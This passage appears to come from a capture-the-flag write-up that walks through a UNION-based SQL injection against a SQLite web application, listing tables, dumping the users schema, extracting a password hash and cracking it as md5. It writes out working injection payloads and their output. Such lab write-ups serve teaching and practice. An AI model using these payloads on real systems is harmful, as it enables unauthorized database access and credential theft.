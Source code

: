size ![image*](/img/1567622614330.png)

Now I can start to get more interesting stuff into that one entry of
text that is returned. PayloadsAllTheThings has a [sqlite injection
page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)
which is a good reference.

I'll list the table names using
`")) UNION SELECT 1,group_concat(tbl_name),3,4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -`.
It returns "users,notes,bookings,sessions".

Thinking that the users table looks most interesting, I'll get the
columns from it using
`")) UNION SELECT 1,sql,3,4 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='users'-- -`.
I get back:



    CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,active TINYINT(1))



I could keep digging around, but I'll go for the data here with
`")) UNION SELECT 1,group_concat(username),3,4 FROM users-- -`. Only one
user is returned, the one I already know about, RickA. Now I'll get the
password, replacing `group_concat(username)` with `password`, and it
returns "fdc8cd4cff2c19e0d1022e78481ddf36". Given that's 32 characters,
it seems like an md5, and [hashes.org](https://hashes.org/search.php)
confirms it is the md5 of "nevergonnagiveyouup":
